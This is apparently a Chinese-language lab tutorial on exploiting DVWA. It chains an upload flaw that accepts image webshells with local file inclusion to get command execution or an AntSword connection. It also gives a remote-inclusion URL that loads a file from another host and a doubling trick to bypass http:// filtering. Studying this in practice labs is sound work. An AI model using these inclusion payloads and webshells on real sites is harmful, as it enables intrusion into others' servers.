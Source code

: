 **渗透思路**
**有时候当我们发现了一个本地的文件包含漏洞，但我们也仅仅只能去读取一些本地的文件，没有办法去进行更深层次的利用，然后又在这个网站上发现了一个文件上传漏洞，同时这个文件上传漏洞如果单个来看是比较鸡肋的，比如它做了限制，只能发送图片，而这个图片却没有做严格的限制，我们可以通过一些图片木马来绕过上传，而这两个漏洞结合一下的话，就能达到很大效果了 比如我们上传了一个图片木马，没法单独去使用，但我们可以使用文件包含漏洞，去对这个文件进行包含，也就是说两个文件互相结合进行利用**

# 本地文件包含

上传文件到本地之后，通过可以访问资源的页面访问该文件

以DVMA为例

![image-20241009203148225](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/image-20241009203148225.png)



上传图片马后将路径保存，可在文件包含中访问该马，可以进行命令执行或者蚁剑连接

![image-20241009203256567](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/image-20241009203256567.png)

# 远程文件包含

可以将文件放在服务器上，在路径后拼接服务器网址即可访问服务器上的资源

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://192.168.126.129/hack.txt
```

有的会对http://和https://进行过滤，可以使用复写绕过



访问txt文件可以，尝试访问马